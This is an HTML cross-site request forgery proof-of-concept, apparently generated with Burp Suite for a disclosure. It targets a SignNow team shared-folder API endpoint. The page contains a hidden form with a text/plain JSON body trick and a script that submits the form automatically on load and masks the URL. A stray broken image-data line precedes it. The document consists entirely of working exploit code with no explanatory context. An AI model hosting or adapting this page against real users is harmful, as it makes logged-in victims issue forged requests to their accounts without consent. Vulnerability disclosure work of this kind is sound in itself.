 <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://app.signnow.com/api/team/[team_id]/shared/document/folder" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

